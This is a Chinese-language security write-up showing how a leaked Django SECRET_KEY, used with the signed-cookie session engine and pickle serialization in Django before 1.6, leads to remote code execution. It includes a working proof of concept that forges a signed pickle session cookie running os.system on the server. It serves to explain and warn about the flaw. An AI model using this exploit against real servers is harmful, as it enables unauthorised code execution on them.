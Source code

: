 # 从django的SECRET_KEY到代码执行

0x00 背景
=======

* * *

最近审查代码发现某些产品在登录的`JS`代码中泄露了`SECRET_KEY`,将该值作为密码加密的盐，这样就暴露了加密`salt`不太好吧，更重要的是对`django`的安全造成了极大的威胁。

0x01 SECRET_KEY作用
=================

* * *

`SECTET_KEY`在`djanog`中使用非常广泛，基本上涉及到安全，加密等的地方都用到了，下面列举一些常见情景：

1，`json object`的签名

2，加密函数，如密码重置，表单，评论，`csrf`的`key`，`session`数据

这里面就要重点讲到`session`的问题，在这里使用不当就会导致代码执行

0x02 代码执行
=========

* * *

### 2.1 settings的session设置

`django`默认存储`session`到数据库中，但是可能会比较慢，就会使用到缓存，文件，还有`cookie`等方式，如果采用了`cookie`机制则有可能代码执行，settings配置如下：

```
SESSION_ENGINE = 'django.contrib.sessions.backends.signed_cookies'

```

### 2.2 django 1.6以下

在`django1.6`以下，`session`默认是采用`pickle`执行序列号操作，在`1.6`及以上版本默认采用`json`序列化。代码执行只存在于使用`pickle`序列话的操作中。

### 2.3 session处理流程

可以简单的分为两部分，`process_request`和`process_response`,前者负责选择`session`引擎，初始化`cookie`数据。见代码

```
class SessionMiddleware(object):
    def process_request(self, request):
        engine = import_module(settings.SESSION_ENGINE)
        session_key = request.COOKIES.get(settings.SESSION_COOKIE_NAME, None)
        request.session = engine.SessionStore(session_key)

```

`process_response`则是处理返回给用户的`cookie`信息，比如修改过期时间等。在将`session`存入缓存后，可能在某个操作中会用到`session`信息，这个时候就会通过反序列化操作从缓存中取，如果反序列话引擎是采用`pickle`机制的话就存在代码执行。反序列化的代码位于`django.core.signing.py`中，这个模块主要是一些签名，加解密操作，同时也包含序列化和反序列化，默认采用`JSON`引擎，下面是反序列话`loads`的代码：

```
def loads(s, key=None, salt='django.core.signing', serializer=JSONSerializer, max_age=None):
    """
    Reverse of dumps(), raises BadSignature if signature fails
    """
    base64d = smart_str(
        TimestampSigner(key, salt=salt).unsign(s, max_age=max_age))
    decompress = False
    if base64d[0] == '.':
        # It's compressed; uncompress it first
        base64d = base64d[1:]
        decompress = True
    data = b64_decode(base64d)
    if decompress:
        data = zlib.decompress(data)
    return serializer().loads(data)

```

### 2.4 构造POC

```
import os
os.environ.setdefault('DJANGO_SETTINGS_MODULE','settings')
from django.conf import settings
from django.core import signing
from django.contrib.sessions.backends import signed_cookies


class Run(object):
    def __reduce__(self):
        return (os.system,('touch /tmp/xxlegend.log',))

sess = signing.dumps(Run(), serializer=signed_cookies.PickleSerializer,salt='django.contrib.sessions.backends.signed_cookies')
print sess

import urllib2
import cookielib

url = 'http://10.24.35.228:8000/favicon.ico'
headers = {'Cookie':'sessionid="%s"' %(sess)}
request = urllib2.Request(url,headers = headers)
response = urllib2.urlopen(request)
print response.read()

```

通过序列化`Run`类，实现创建一个文件的操作，在反序列化的时候执行这个操作。执行代码完成可看到在`/tmp`目录创建`xxlegend.log`文件，同时`web`报`500`错误。

0x03 总结
=======

* * *

利用条件总结起来就是这么几句话，首先泄露了`SECRET_KEY`,其次`session`引擎采用了`signed_cookies`,`django`版本小于`1.6`即存在代码执行问题。同样的问题也存在于`python`的其他`web`框架中，如`flask`，`bottle`。